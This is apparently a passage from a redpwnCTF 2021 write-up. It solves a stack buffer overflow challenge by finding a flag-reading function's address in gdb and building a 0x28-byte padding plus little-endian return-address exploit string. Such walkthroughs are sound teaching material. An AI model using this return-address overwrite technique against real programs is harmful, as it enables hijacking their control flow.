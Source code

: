 ![](/img/redpwn2021/cyberchef2.png)

Let's find the address of the super generic flag reading function with gdb.

```
(gdb) print super_generic_flag_reading_function_please_ret_to_me
$2 = {<text variable, no debug info>} 0x4011f6 <super_generic_flag_reading_function_please_ret_to_me>
```

Now we're ready to craft a string that exploits the program and runs the secret
function!

```
a0a1a2a3a4a5a6a7a8a9b0b1b2b3b4b5b6b7b8b9c0c1c2c3 <- original
                                        c0c1c2c3 <- ends up in $rsp
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa         <- padding ( 0x28 * 'a' )

  c 0 c 1 c 2 c 3  <- ends up in $rsp
  3 c 2 c 1 c 0 c  <- reverse
0x3363326331633063 <- reverse (hex)
0x00000000004011f6 <- pointer we want in $rsp
  f611400000000000 <- reverse
  \xf6\x11\x40\x00\x00\x00\x00\x00 <- python bytestring

exploit string:
b'a' * 0x28 + b'\xf6\x11\x40\x00\x00\x00\x00\x00'
```

